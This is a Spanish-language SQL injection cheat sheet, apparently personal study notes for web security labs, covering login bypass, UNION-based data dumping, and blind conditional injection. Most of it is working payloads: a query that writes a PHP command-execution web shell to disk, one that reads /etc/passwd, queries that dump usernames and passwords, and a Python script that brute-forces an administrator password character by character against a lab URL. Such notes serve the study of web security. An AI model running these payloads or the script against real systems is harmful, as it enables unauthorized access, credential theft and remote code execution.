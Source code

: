 
### BYPASS Basico
---
```sql
SELECT * FROM {data_name} WHERE {column}='%s' AND {column2})='data';

SELECT * FROM users WHERE username='Example' or 1=1-- -' AND password='password';
```

### SQL Injection UNION
---
Lo primero que debemos hacer para averiguar cuantas columnas puede tener una tabla, o cuantas se estan seleccionando, se puede comenzar a probar cuantas columnas se estan llamando con la sig iyección.

```SQL
SELECT {column1}, {column2} FROM {data_name} WHERE {some_query}='%s';

SELECT username, password FROM users WHERE cookie='cookie' ORDER BY 4-- -'
-- Unknown column '4' in 'order clause'
SELECT username, password FROM users WHERE cookie='cookie' ORDER BY 2-- -'
```

Una vez que conseguimos saber cuantos campos se estan seleccionando por detras, lo podemos utilizar para ahora si, usar el ataque UNION, esto es necesario ya que solo se podra hacer un union sabiendo exactamente las columnas seleccionadas por detras.

```SQL
SELECT {column1}, {column2} FROM {data_name} WHERE {some_query}='%s';

SELECT username, password FROM users WHERE cookie='cookie' UNION SELECT NULL,NULL;-- -'

-- Ahora podriamos ingresar strings para de esta manera empezar a filtrar datos.

SELECT username, email FROM users WHERE x='%s' UNION SELECT version(),null;-- -';
-- De esta manera estamos inyectando información de la version de sql en el campo solicitado, en ete ejemplo (username), devolviendo asi, no solo el username, ejemplo "admin" si no tmb por ejemplo, concatenado a esto PostgreSQL 14.4 (Debian 14.4-1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 11.3.0-3) 11.3.0, 64-bit
```

Con esto hay muchos conceptos que podriamos aplicar, como escribir un archivo en el sistema, ingresando una sentencia php:

```SQL
SELECT username, email FROM users WHERE x='%s' UNION SELECT "<?php system($_GET['cmd']); ?>", NULL INTO outfile "/tmp/example.txt"-- -';
```

O para leer archivos propios del sistema :

```SQL
SELECT username, email FROM users WHERE x='%s' UNION SELECT load_file("/etc/passwd"), NULL-- -';
```

O para listar las base de datos:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -'
```

Y una vez teniendo todas las base de datos, podemos intentar listar las tablas de una base de datos en especifica:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_dumpeada'-- -';
```

Para asi, una vez teniendo las tablas de una base de datos en particular, poder dumpear las columnas:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='db_dumpeada' AND table_name='table_dumpeada'-- -';
```

Y así, teniendo las columnas de la tabla de una base de datos, podemos asi, dumpear los datos:

```SQL
SELECT {column_dumpeada1}, {column_dumpeada2} FROM {table_dumpeada} WHERE d='%s' UNION SELECT username, passoword-- -';
```

#### Ejemplo:

```SQL
select username, password from users where username='Admin' union select null, username||":"||password from users;-- -' and password='password';

select email, password from users where username='Owen' union select group_concat(email,':',password),null from users;-- -' and password='password';

-- Si tirase error el group_concat, se puede probar ||":"|| o ||0x3a||

```
---
# Blind Injections

## Conditionals Response

Esto ocurre cuando los errores causados por inyecciones sql no se ven, por lo que hay que obtenerlos, por ejemplo, si la vulnerabilidad se tratase en una query llamada "TrackingId".
 
### Ejemplo:

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL'
```

Al agregarle la comilla a la query ' para que rompa la petición

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL''
```

El error no es visible en la web porque es a CIEGAS=BLIND, pero se genera el error y desaparece un apartado o mensaje en la web, esto justamente es lo que le da el nombre a la vulnerabilidad "conditional", dependiendo de si hay un error o no, muestra algo o no.

Esto lo podemos usar para jugar con peticiones #true y #false y basarnos de si la respuesta se ve o no para corroborar si la petición enviada por detras se cumple o no, por ejemplo:

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

De esta manera estamos inyectando una nueva query en donde seleccionamos la letra a de la tabla users del usuario administrator (Recordemos que aquellos valores falsos o errores hacen desaparecer un mensaje o apartado de la web), de esta manera podemos entender que caracter por caracter tenemos una manera potencial de verifica si el username, o password,  o sea cual sea la columna, es correcta, permitiendonos asi, con herramientas como burpsuite o creando script en python, hacer un descubrimiento de la contraseña del usuario administrador.

```SQL
-- La primera posición del username del usuario administrator es 'a'
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT substring(username,1,1) FROM users WHERE username='Administrator')='a'-- -

-- La primera posición de la password del usuario administrator es 'a'
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a
```

Incluso podriamos ir descubriendo la longitud de la contraseña:

```SQL
SELECT * FROM products WHERE TrackingId='q3XzfKFtNBf4dtNv' AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>=20)='a
```



### Script en python ejemplo:

```python
#!/usr/bin/python3
from pwn import *
import requests, signal, time, pdb, sys, string

########################################
############# CONTROL + C ##############
########################################

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

########################################
########## VARIABLES GLOBALES ##########
########################################

main_url="https://0add006403a236e0c0f91f900081009f.web-security-academy.net"
characters= string.ascii_lowercase + string.digits

########################################

def makeRequests():

	password=""
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Password")

	for position in range(1, 21):
		for character in characters:
			cookies = {
				"TrackingId": "9BTAXg9CWgueJePm' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
				"session": "0aUi1LOYfRGtiE7K3VGivY8x3r8f548j"
			}
			p1.status(cookies['TrackingId'])

			r = requests.get(main_url, cookies=cookies)

			if "MENSAJE QUE DESAPARECE" in r.text:
				password += character
				p2.status(password)
				break

if __name__ == "__main__":
	makeRequests()
```